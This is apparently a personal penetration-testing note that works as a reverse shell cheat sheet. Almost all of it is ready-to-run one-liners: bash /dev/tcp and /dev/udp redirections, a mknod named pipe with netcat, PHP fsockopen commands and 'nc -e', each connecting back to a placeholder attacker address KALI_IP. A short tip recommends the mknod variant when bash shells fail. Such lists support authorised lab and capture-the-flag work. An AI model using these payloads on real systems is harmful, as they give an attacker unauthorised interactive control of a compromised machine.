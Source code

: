 
## Bash

```bash
sh -i >& /dev/tcp/KALI_IP/9001 0>&1
```

```bash
sh -i >& /dev/udp/KALI_IP/9001 0>&1
```

## mknod

```bash
mknod backpipe p; nc KALI_IP 31337 0<backpipe | /bin/bash 1>backpipe
```
>[!tip]
>This reverse shell typically works well when bash reverse shells aren't available.
## PHP

#### Command line:
```bash
php -r '$sock=fsockopen("KALI_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9001);shell_exec("sh <&3 >&3 2>&3");'
```

## Netcat
```bash
nc KALI_IP 9001 -e sh
```

## Referenced In
```dataview
list from [[]] and !outgoing([[]])
```